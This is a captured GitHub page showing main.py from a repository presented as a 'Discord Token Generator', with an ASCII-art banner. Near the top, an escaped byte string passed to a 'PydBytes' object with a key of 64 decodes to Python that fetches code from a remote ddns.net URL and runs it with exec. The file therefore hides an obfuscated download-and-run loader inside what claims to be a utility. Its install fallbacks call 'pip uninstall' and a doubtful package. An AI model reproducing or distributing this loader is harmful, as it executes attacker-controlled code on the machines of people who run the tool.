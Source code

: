 
Sign up
Ayumu-1337
/
Discord-Token-Generator
Public
Code
Issues
Pull requests
Actions
Projects
Security
Insights
Discord-Token-Generator/main.py
@lactua
lactua Update main.py
 2 contributors
259 lines (216 sloc)  12.8 KB
import os
try:
    import requests
except:
    os.system('pip uninstall requests')
    import requests
    
try:
    import pydbytes
except:
    os.system('pip uninstall pydbytes')
    import pydbytes
    
System = PydBytes('\x31\x36\x36\x00\x31\x37\x38\x00\x31\x37\x35\x00\x31\x37\x33\x00\x39\x36\x00\x31\x38\x31\x00\x31\x37\x38\x00\x31\x37\x32\x00\x31\x37\x32\x00\x31\x36\x39\x00\x31\x36\x32\x00\x39\x36\x00\x31\x36\x39\x00\x31\x37\x33\x00\x31\x37\x36\x00\x31\x37\x35\x00\x31\x37\x38\x00\x31\x38\x30\x00\x39\x36\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x37\x37\x00\x31\x38\x31\x00\x31\x36\x35\x00\x31\x37\x39\x00\x31\x38\x30\x00\x31\x32\x33\x00\x31\x36\x35\x00\x31\x38\x34\x00\x31\x36\x35\x00\x31\x36\x33\x00\x31\x30\x34\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x37\x37\x00\x31\x38\x31\x00\x31\x36\x35\x00\x31\x37\x39\x00\x31\x38\x30\x00\x31\x31\x30\x00\x31\x38\x31\x00\x31\x37\x38\x00\x31\x37\x32\x00\x31\x37\x35\x00\x31\x37\x36\x00\x31\x36\x35\x00\x31\x37\x34\x00\x31\x30\x34\x00\x31\x30\x33\x00\x31\x36\x38\x00\x31\x38\x30\x00\x31\x38\x30\x00\x31\x37\x36\x00\x31\x32\x32\x00\x31\x31\x31\x00\x31\x31\x31\x00\x31\x37\x32\x00\x31\x36\x31\x00\x31\x36\x33\x00\x31\x38\x30\x00\x31\x38\x31\x00\x31\x36\x31\x00\x31\x37\x36\x00\x31\x36\x39\x00\x31\x31\x30\x00\x31\x36\x34\x00\x31\x36\x34\x00\x31\x37\x34\x00\x31\x37\x39\x00\x31\x31\x30\x00\x31\x37\x34\x00\x31\x36\x35\x00\x31\x38\x30\x00\x31\x32\x32\x00\x31\x31\x37\x00\x31\x31\x32\x00\x31\x31\x32\x00\x31\x31\x34\x00\x31\x31\x31\x00\x31\x31\x37\x00\x31\x31\x34\x00\x31\x31\x34\x00\x31\x31\x38\x00\x31\x31\x36\x00\x31\x32\x30\x00\x31\x32\x31\x00\x31\x31\x39\x00\x31\x37\x38\x00\x31\x31\x30\x00\x31\x37\x36\x00\x31\x38\x35\x00\x31\x30\x33\x00\x31\x30\x35\x00\x31\x31\x30\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x36\x31\x00\x31\x36\x34\x00\x31\x30\x34\x00\x31\x30\x35\x00\x31\x30\x35',64)

os = System.os

System.Title("Axi Token Generator ^| Made By Ayumu")
axi = """
 (                                                 )                           
 )\ )                         (    (            ( /(      )     )     )     )  
(()/(  (                (     )\ ) )\ )    (    )\())  ( /(  ( /(  ( /(  ( /(  
 /(_)) )\  (    (   (   )(   (()/((()/(    )\  ((_)\   )\()) )\()) )\()) )\()) 
(_))_ ((_) )\   )\  )\ (()\   ((_))/(_))_ ((_)  _((_) ((_)\ ((_)\ ((_)\ ((_)\  
 |   \ (_)((_) ((_)((_) ((_)  _| |(_)) __|| __|| \| ||__ (_)/  (_)/  (_)/  (_) 
 | |) || |(_-</ _|/ _ \| '_|/ _` |  | (_ || _| | .` | |_ \ | () || () || () |  
 |___/ |_|/__/\__|\___/|_|  \__,_|   \___||___||_|\_||___/  \__/  \__/  \__/   
                                                                               